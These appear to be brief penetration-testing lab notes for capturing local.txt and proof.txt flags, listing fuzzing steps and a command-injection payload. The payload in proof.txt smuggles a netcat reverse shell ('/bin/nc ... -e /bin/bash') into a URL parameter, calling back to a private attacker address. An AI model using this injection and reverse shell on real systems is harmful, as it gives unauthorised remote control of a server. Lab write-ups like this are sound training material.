 local.txt
```path
> find XXXXX.txt files

>> fuzz for .PDF files to find new path

>>> Browse to path to get local.txt



```

proof.txt
```bash
> LCE at sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;/bin/nc 192.168.45.233 1337 -e /bin/bash
```